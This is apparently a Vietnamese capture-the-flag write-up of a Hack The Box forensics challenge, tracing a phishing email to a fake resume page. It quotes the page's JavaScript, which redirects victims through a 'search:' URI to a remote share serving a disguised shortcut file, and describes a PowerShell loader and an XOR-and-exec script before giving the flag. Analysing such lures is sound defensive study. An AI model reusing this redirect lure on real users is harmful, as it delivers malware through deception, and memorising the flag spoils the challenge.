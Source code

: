 # _A new hire_ _(FORSENSICS)_
 
 ![image](https://github.com/user-attachments/assets/e9725ec1-0825-45f3-b533-a3cb000b9160)
 
 Tiếp tục là file email.eml, mở ra xem 
 
 ![image](https://github.com/user-attachments/assets/291d60c8-f0a1-41fa-860e-fcc4ffbf43ca)
 
 Hmm khá giống với thử thách trước, add IP và domain vô /etc/hosts/
 
 Truy cập http://storage.microsoftcloudservices.com:[PORT]//index.php
 
 ![image](https://github.com/user-attachments/assets/05a439ab-318b-4540-b8f9-47677819ce09)
 
 Xem source, chú ý đến đoạn sau
 
 ```html
   <div class="blur-overlay">
     <button class="view-button" onclick="getResume()">View Full Resume</button>
   </div>
   <script defer="defer">
     setTimeout(() => {
       document.getElementById('loading').style.display = 'none';
       document.getElementById('main-content').style.display = 'flex';
     }, 5000);
 
     function getResume() {
       window.location.href=`search:displayname=Downloads&subquery=\\\\${window.location.hostname}@${window.location.port}\\3fe1690d955e8fd2a0b282501570e1f4\\resumes\\`;
     }
   </script>
 ```
 
 Trang web bị blur, mình thử bỏ nó đi thì nhận được nội dung giống như 1 CV, kh có gì đáng chú ý
 
 ![image](https://github.com/user-attachments/assets/7d5f0228-6d81-4d0b-82ee-fb8e990d5665)
 
 Nhìn xuống tiếp hàm getResume(), thấy được sử dụng JavaScript để điều khiển hiển thị nội dung và chuyển hướng người dùng đến một tệp \\3fe1690d955e8fd2a0b282501570e1f4\\resumes\\, nhưng mình nhấn View Full Resume khi trang web đang bị blur thì kh thấy gì
 
 Từ đây mình nghĩ có thể lấy đường link _http://storage.microsoftcloudservices.com:[PORT]//index.php_  thay index.php thành \\3fe1690d955e8fd2a0b282501570e1f4\\resumes\\ và truy cập trực tiếp luôn
 
 ![image](https://github.com/user-attachments/assets/7c4e4922-6dc1-4d35-8971-8e2b92d44b08)
 
 Tải file Resume.pdf.link về 
 
 ![image](https://github.com/user-attachments/assets/d37b2856-beab-4091-9bc9-cad6a70802aa)
 
 Decode base64
 
 ![image](https://github.com/user-attachments/assets/f5b5a99a-28aa-44ff-b378-518aa73ef0ff)
 
 Có 1 đoạn pws được dùng để mở và truy cập các đường link, truy cập vô client.py
 
 ![image](https://github.com/user-attachments/assets/1944f076-b948-47c5-afb7-fc71aef2bb7e)
 
 Thấy có 1 key và 1 data khá dài, bên dưới dùng lệnh xor key với data và chạy lệnh exec để thực thi, mình thử thay thành print để in luôn kết quả nhưng vẫn bị mã hóa, loay hoay mãi thì thử base64 decrypt key thì có được flag :v Lừa vl
 
 ```
 HTB{4PT_28_4nd_m1cr0s0ft_s34rch=1n1t14l_4cc3s!!}
 ```
